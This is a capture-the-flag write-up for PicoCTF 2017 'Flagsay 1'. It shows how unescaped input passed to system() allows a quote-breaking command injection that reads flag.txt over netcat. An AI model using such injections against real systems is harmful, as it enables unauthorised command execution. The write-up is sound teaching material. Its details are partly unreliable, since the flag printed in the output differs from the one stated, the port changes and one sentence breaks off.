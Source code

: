 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	$ nc shell2017.picoctf.com 12442
	"aaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaa                              /     
	            //                                   /      
	           //                                   /       
	          //                                   /        
	         //                                   /         
	        //                                   /          
	       //___________________________________/           
	      //                                                
	     //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     

We can see that input gets inside of the flag.
However, input is unescaped, so we can pass on a shell command like 

     $ nc shell2017.picoctf.com 12442
	aaaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaaa /
	sh: 4: //: Permission denied
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

As seen ab
Then, we can do something like this

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQzMjU2MzgyN119
-->